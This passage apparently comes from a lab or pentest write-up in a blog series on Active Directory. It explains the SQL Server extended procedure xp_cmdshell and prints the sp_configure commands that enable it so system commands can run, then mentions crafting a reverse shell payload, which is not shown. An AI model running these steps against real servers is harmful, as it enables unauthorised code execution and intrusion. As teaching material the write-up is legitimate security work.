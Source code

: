 From here on, I was checking if I could exfil some data, looked for some other juicy databases, but it wasn't tender juicy as I was expecting. Luckily, out of the blue, I remember
something I have done before which is using `xp_cmdshell` to execute system commands on the SQL Server.  

> **xp_cmdshell** is an extended stored procedure in Microsoft SQL Server that allows commands to be executed directy from it. This is disabled by default due to security considerations as it can be abused for privilege escalation and remote code execution. If a user with sysadmin priveleges enables `xp_cmdshell`, SQL Server can execute system commands with SQL Server's service account privileges, which is a major security risk.
{: .prompt-danger}


With that information, I enabled `xp_cmdshell` so I could execute commands.

##### Enable `advanced options` and `xp_cmdshell`:
```bash
EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;
```
![Desktop View](/assets/img/ad-series-2/ss7.png){: width="982" height="800" }
_Enabling `xp_cmdshell`_

Now, that's enabled. At this point, I was thinking of establishing a reverse shell. So with the help of <a href="https://revshells.com" target="_blank">Reverse Shell Generator</a>, I crafted my payload.
